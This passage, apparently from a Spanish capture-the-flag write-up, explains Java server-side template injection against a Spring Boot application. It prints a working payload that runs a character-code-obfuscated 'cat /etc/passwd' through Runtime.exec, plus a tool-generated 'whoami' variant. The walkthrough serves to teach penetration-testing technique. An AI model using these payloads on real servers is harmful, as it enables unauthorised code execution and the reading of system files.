 ![Ejecución de código](/secciones/posts/imagenes/redpanda/exec.png)

### Inyección SSTI Java

Dado que Spring Boot está hecho con Java, se necesitan cargas útiles SSTI Java. Estas cargas útiles se pueden encontrar en PayloadsAllTheThings. Usaremos la siguiente:

```java
${T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(119)).concat(T(java.lang.Character).toString(100))).getInputStream())}
```

Debido a que esta carga útil requiere codificar cada carácter que se ejecutará, para facilitar el trabajo se utiliza la herramienta [SSTI-PAYLOAD](https://github.com/vladko312/ssti-payload).

**Nota:** Se modificó el script para retornar siempre `*{` en lugar de `${`.

```bash
python ssti-payload.py 

Command ==> whoami

*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(119).concat(T(java.lang.Character).toString(104)).concat(T(java.lang.Character).toString(111)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(109)).concat(T(java.lang.Character).toString(105))).getInputStream())}
```
